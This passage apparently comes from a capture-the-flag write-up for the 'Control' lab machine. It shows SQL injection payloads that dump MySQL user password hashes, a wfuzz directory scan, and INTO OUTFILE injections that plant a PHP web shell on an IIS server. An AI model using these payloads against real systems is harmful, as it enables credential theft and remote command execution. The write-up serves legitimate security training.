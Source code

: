 ```bash
# ' union select 1,2,group_concat(column_name),4,5,6 from information_schema.tables where table_schema="mysql" and table_name="user"-- -
# Injection -> ' union select 1,2,group_concat(User,0x3a,Password),4,5,6 from mysql.user-- -

echo "root:......9D" | tr ',' '\n' | sed 's/\*//g'

nvim hashes
cat hashes
cat hashes | tr -d '\n' | awk '{print $2}' FS=':' | xclip -sel clip
```

<br />
<img src="{{ site.img_path }}/control_writeup/Control_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Supported by **SQL** functionalities I'm going to try to **[upload a malicious file](https://portswigger.net/web-security/sql-injection/cheat-sheet){:target="_blank"}** on the web server, but first with `wfuzz` I succeed to find some directories (**uploads**) in which the files may be stored. I also investigate about the **[common paths in a Windows file system](https://security.stackexchange.com/questions/211594/local-file-inclusion-post-exploitation){:target="_blank"}** and use the one that is configured by **[default for IIS](https://serverfault.com/questions/281159/finding-the-root-for-a-windows-iis-server){:target="_blank"}**. I do a test by uploading a **.txt** file and from my browser I check that it was successfully uploaded to the server, so the next step is to upload one with **PHP** code to know if the code is interpreted. As the result is what I expected, I create a **PHP web shell** and upload it exploiting the **SQLi**, this way I can execute command remotely (**RCE**) and I can enumerate the system. But as my goal is to access the system, I will try to get a **Reverse Shell**, so first I will check the connectivity with my attacker machine with `ping`.

```bash
wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.167/FUZZ
# images, uploads, assets

rlwrap ./fidelity_sqli.sh -i
# ' union select 1,2,"olboy was here",4,5,6 INTO OUTFILE "c:\Inetpub\wwwroot\uploads\testing.txt"-- -
# ' union select 1,2,"olboy was here",4,5,6 INTO OUTFILE "c:\\Inetpub\\wwwroot\\uploads\\testing.txt"-- -

# http://10.10.10.167/uploads/testing.txt
# :)

# ' union select 1,2,"<?php echo \"PHP language interpretation\"; ?>",4,5,6 into outfile "c:\\Inetpub\\wwwroot\\uploads\\testing.php"-- -
# http://10.10.10.167/uploads/testing.php

# ' union select 1,2,"<?php echo \"<pre>\" . shell_exec($_REQUEST[\"cmd\"]) . \"</pre>\"; ?>",4,5,6 into outfile "c:\\Inetpub\\wwwroot\\uploads\\cmd.php"-- -
```